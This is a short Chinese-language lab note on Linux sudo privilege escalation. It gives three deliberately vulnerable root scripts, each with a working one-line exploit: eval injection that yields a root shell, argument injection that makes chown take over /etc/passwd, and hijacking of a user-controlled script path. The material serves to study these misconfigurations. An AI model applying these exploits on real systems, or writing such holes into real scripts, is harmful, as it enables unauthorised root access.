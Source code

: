 # 0x00 脚本1

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/1.sh" >> /etc/sudoers
root: chmod 755 /home/aplyc1a/escal/1.sh
```

脚本内容如下：

```shell
#!/bin/bash

set -x
if [ $1 = "aaa" ];then
    cmd="$2 $3"
    eval $cmd
    exit $?
fi
```

poc:

```shell
aplyc1a:sudo ./1.sh aaa su -
```

# 0x01 脚本2

```shell
#!/bin/bash

set -x
if [ $1 = "aaa" ];then
    chown aplyc1a:aplyc1a $2/log.sh
fi
```

poc:

```shell
aplyc1a:sudo ./2.sh aaa "/etc/passwd "
```



# 0x02 脚本3

root在aplyc1a家目录下创建3.sh内容如下：

```shell
#!/bin/bash

${1}/log.sh
```

poc:

```shell
aplyc1a: echo "#!/bin/bash" > /tmp/log.sh
aplyc1a: echo "bash" > /tmp/log.sh
aplyc1a: chmod a+x /tmp/log.sh
aplyc1a:sudo ./3.sh "/tmp/"
```

